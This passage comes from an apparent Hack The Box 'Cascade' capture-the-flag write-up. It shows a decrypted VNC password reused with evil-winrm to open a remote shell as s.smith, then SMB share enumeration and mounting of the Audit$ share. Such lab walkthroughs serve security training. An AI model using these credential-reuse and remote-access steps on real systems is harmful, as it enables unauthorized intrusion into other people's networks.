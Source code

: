 This saved VNC password can be decrypted by [vncpasswd.py](https://github.com/trinitronx/vncpasswd.py) so now we've credentials for `s.smith` because this credential was found in a folder with his name.

```bash
luc@kali:~/HTB/Cascade$ evil-winrm -u s.smith -p sT333ve2 -i 10.10.10.182

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\s.smith\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\s.smith\Desktop> cat user.txt
5285d40b************************
```

## Privilege escalation

```bash
*Evil-WinRM* PS C:\Users\s.smith\Desktop> cd \
*Evil-WinRM* PS C:\> dir

    Directory: C:\

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         1/9/2020   8:14 PM                inetpub
d-----        7/14/2009   4:20 AM                PerfLogs
d-r---        1/28/2020   7:27 PM                Program Files
d-r---        3/25/2020  11:30 AM                Program Files (x86)
d-----        1/15/2020   9:38 PM                Shares
d-r---        1/28/2020  11:37 PM                Users
d-----        3/25/2020  11:29 AM                Windows

*Evil-WinRM* PS C:\> cd Shares
*Evil-WinRM* PS C:\Shares> dir
Access to the path 'C:\Shares' is denied.
```

We can't access the `C:\Shares` folder contents directly.

```bash
luc@kali:~/HTB/Cascade$ smbmap -H 10.10.10.182 -u s.smith -p sT333ve2
[+] IP: 10.10.10.182:445        Name: 10.10.10.182
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        Audit$                                                  READ ONLY
        C$                                                      NO ACCESS       Default share
        Data                                                    READ ONLY
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share
        print$                                                  READ ONLY       Printer Drivers
        SYSVOL                                                  READ ONLY       Logon server share
luc@kali:~/HTB/Cascade$ mkdir smb_steve
luc@kali:~/HTB/Cascade$ cd smb_steve
luc@kali:~/HTB/Cascade/smb_steve$ mkdir audit
luc@kali:~/HTB/Cascade/smb_steve$ sudo mount //10.10.10.182/audit$ audit -o username=s.smith
Password for s.smith@//10.10.10.182/audit$:  ********
luc@kali:~/HTB/Cascade/smb_steve$ cd audit
luc@kali:~/HTB/Cascade/smb_steve/audit$ ls -R
.:
CascAudit.exe  CascCrypto.dll  DB  RunAudit.bat  System.Data.SQLite.dll  System.Data.SQLite.EF6.dll  x64  x86

./DB:
```